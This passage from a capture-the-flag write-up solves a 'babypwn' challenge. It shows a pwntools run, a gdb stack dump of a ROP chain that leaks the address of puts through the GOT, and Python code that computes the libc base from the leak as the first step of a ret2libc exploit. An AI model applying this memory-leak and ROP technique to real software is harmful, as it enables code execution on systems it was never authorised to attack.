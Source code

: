 ```python

vagrant@vagrant:~/pwn/pwn_university2018/babypwn$ python writeup.py
[+] Starting local process '/home/vagrant/pwn/pwn_university2018/babypwn/babypwn': pid 2513
[2513]
[*] Paused (press any to continue)
[*] Switching to interactive mode
Welcome student! Can you run /bin/sh
```

let's hit the gdb and see what is happened through the payload execution


```python
=> 0x401168 <copy+34>:	ret
   0x401169 <main>:	push   rbp
   0x40116a <main+1>:	mov    rbp,rsp
   0x40116d <main+4>:	lea    rdi,[rip+0xe9c]        # 0x402010
   0x401174 <main+11>:	call   0x401030 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 --> 0x401203 (<__libc_csu_init+99>:	pop    rdi) // 
0008| 0x7fffffffe450 --> 0x403fc8 --> 0x7ffff7a7c690 (<_IO_puts>:	push   r12) // #1
0016| 0x7fffffffe458 --> 0x401030 (<puts@plt>:	jmp    QWORD PTR [rip+0x2f92]        # 0x403fc8)  #2
0024| 0x7fffffffe460 --> 0x401169 (<main>:	push   rbp)
0032| 0x7fffffffe468 --> 0x7fffffffe500 --> 0x401060 (<_start>:	repz nop edx)
0040| 0x7fffffffe470 --> 0x1f7ffcca0
0048| 0x7fffffffe478 --> 0x401169 (<main>:	push   rbp)
0056| 0x7fffffffe480 --> 0x0
```


* 1- it will pop the put_got into rdi register
* 2- time to return to put@plt and going to print the address (leak function) 

 
Clearly now we can see the leak address and time to fix our exploit and make some calculation
```

Welcome student! Can you run /bin/sh
\x90Ƨ��
```

**fix our exploit**


let's add the python code to store the leak address into a value then print it, then we are going to calculuate the libc base address.

```python

	r.recvline("Welcome student! Can you run /bin/sh")
	data = r.recv(6)

	data += "\x00" *(8 - len(data))
	leak = u64(data)
	libcAddress = leak - libc.sym['puts']
	
	log.info("[+] libc.address : " + hex(libcAddress))

```
